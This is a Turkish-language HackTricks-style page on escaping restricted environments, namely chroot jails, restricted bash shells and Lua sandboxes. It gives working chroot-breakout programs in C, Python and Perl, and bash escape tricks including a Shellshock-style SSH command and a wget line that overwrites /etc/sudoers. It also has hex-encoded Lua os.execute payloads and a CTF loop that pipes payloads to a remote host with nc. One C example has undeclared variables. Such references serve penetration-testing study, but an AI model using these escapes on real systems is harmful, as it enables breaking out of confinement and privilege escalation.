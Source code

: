 # Jailer'dan Kaçış

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## **GTFOBins**

**"Shell" özelliği ile herhangi bir ikili dosyayı çalıştırıp çalıştıramayacağınızı kontrol edin** [**https://gtfobins.github.io/**](https://gtfobins.github.io).

## Chroot Kaçışları

[wikipedia'dan](https://en.wikipedia.org/wiki/Chroot#Limitations): Chroot mekanizması, **yetkili** (**root**) **kullanıcılar** tarafından kasıtlı müdahalelere karşı **savunma yapmak için tasarlanmamıştır**. Çoğu sistemde, chroot bağlamları düzgün bir şekilde yığılmamaktadır ve yeterli ayrıcalıklara sahip chroot edilmiş programlar **çıkmak için ikinci bir chroot gerçekleştirebilir**.\
Genellikle bu, chroot içinde root olmanız gerektiği anlamına gelir.

{% hint style="success" %}
**chw00t** [**aracı**](https://github.com/earthquake/chw00t), aşağıdaki senaryoları kötüye kullanmak ve `chroot`'dan kaçmak için oluşturulmuştur.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Eğer bir chroot içinde **root** iseniz, **başka bir chroot** oluşturarak **kaçabilirsiniz**. Bunun nedeni, 2 chroot'un (Linux'ta) bir arada var olamayacağıdır, bu yüzden bir klasör oluşturup ardından **o yeni klasörde yeni bir chroot oluşturursanız** ve **bunun dışında olursanız**, artık **yeni chroot'un dışında** olacaksınız ve dolayısıyla FS'de olacaksınız.

Bu, genellikle chroot'un çalışma dizininizi belirtilen yere taşımadığı için olur, bu nedenle bir chroot oluşturabilirsiniz ama onun dışında olursunuz.
{% endhint %}

Genellikle bir chroot hapishanesinde `chroot` ikili dosyasını bulamazsınız, ancak bir ikili dosyayı **derleyebilir, yükleyebilir ve çalıştırabilirsiniz**:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>Python
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Kaydedilmiş fd

{% hint style="warning" %}
Bu, önceki duruma benzer, ancak bu durumda **saldırgan mevcut dizine bir dosya tanımlayıcısı kaydediyor** ve ardından **yeni bir klasörde chroot oluşturuyor**. Son olarak, chroot'un **dışında** o **FD'ye** **erişimi** olduğundan, ona erişiyor ve **kaçıyor**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD, Unix Domain Sockets üzerinden geçirilebilir, bu yüzden:

* Bir çocuk süreç oluştur (fork)
* Ebeveyn ve çocuk arasında iletişim kurmak için UDS oluştur
* Çocuk süreçte farklı bir klasörde chroot çalıştır
* Ebeveyn süreçte, yeni çocuk süreç chroot'unun dışında bir klasörün FD'sini oluştur
* Bu FD'yi UDS kullanarak çocuk sürece geçir
* Çocuk süreç bu FD'ye chdir yapar ve çünkü bu chroot'un dışındadır, hapisten kaçacaktır
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* Kök cihazı (/) chroot'un içindeki bir dizine monte et
* O dizine chroot yap

Bu Linux'ta mümkündür
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* procfs'i chroot'un içindeki bir dizine monte et (henüz değilse)
* Farklı bir root/cwd girişi olan bir pid arayın, örneğin: /proc/1/root
* O girişe chroot yap
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Bir Fork (çocuk proc) oluştur ve FS'de daha derin bir klasöre chroot yap ve oraya CD yap
* Ebeveyn süreçten, çocuk sürecin bulunduğu klasörü çocukların chroot'unun öncesindeki bir klasöre taşı
* Bu çocuk süreç kendini chroot'un dışında bulacaktır
{% endhint %}

### ptrace

{% hint style="warning" %}
* Bir zamanlar kullanıcılar kendi süreçlerini kendi süreçlerinden hata ayıklayabiliyordu... ama bu artık varsayılan olarak mümkün değil
* Yine de, mümkünse, bir sürece ptrace yapabilir ve içinde bir shellcode çalıştırabilirsiniz ([bu örneğe bakın](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumeration

Hapishane hakkında bilgi al:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### PATH'i Değiştir

PATH ortam değişkenini değiştirebilir misiniz kontrol edin
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### vim Kullanarak
```bash
:set shell=/bin/sh
:shell
```
### Script oluştur

_/bin/bash_ içeriği ile çalıştırılabilir bir dosya oluşturup oluşturamayacağınızı kontrol edin
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### SSH Üzerinden Bash Elde Etme

Eğer ssh üzerinden erişiyorsanız, bir bash shell'i çalıştırmak için bu hileyi kullanabilirsiniz:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Beyan Etmek
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Örneğin sudoers dosyasını üzerine yazabilirsiniz.
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Diğer hileler

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**Aşağıdaki sayfa da ilginç olabilir:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python Hapisleri

Aşağıdaki sayfada python hapishanelerinden kaçış hakkında hileler:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Hapisleri

Bu sayfada lua içinde erişebileceğiniz global fonksiyonları bulabilirsiniz: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Komut yürütme ile Eval:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Bazı ipuçları **nokta kullanmadan bir kütüphanenin fonksiyonlarını çağırmak için**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
Kütüphanenin işlevlerini listele:
```bash
for k,v in pairs(string) do print(k,v) end
```
Not edin ki, önceki tek satırlık komutu **farklı bir lua ortamında her çalıştırdığınızda fonksiyonların sırası değişir**. Bu nedenle, belirli bir fonksiyonu çalıştırmanız gerekiyorsa, farklı lua ortamlarını yükleyerek ve le kütüphanesinin ilk fonksiyonunu çağırarak bir kaba kuvvet saldırısı gerçekleştirebilirsiniz:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Etkileşimli lua shell alın**: Eğer sınırlı bir lua shell içindeyseniz, yeni bir lua shell (ve umarım sınırsız) almak için şunu çağırabilirsiniz:
```bash
debug.debug()
```
## Referanslar

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Slaytlar: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
